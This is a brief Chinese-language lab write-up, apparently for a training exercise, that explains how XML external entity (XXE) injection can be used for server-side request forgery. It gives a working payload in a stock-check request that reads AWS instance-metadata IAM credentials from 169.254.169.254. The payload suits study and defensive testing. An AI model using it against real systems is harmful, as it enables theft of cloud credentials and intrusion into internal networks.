

# 知识点
要利用 XXE 漏洞执行 SSRF 攻击，您需要使用要定位的 URL 定义外部 XML 实体，并在数据值中使用定义的实体。如果您可以在应用程序响应中返回的数据值中使用定义的实体，那么您将能够从应用程序响应中的 URL 查看响应，从而获得与后端系统的双向交互。如果没有，那么您将只能执行盲目的 SSRF 攻击（这仍然会产生严重后果）。<br />在以下 XXE 示例中，外部实体将导致服务器向组织基础架构内的内部系统发出后端 HTTP 请求：
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
# 思路
```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

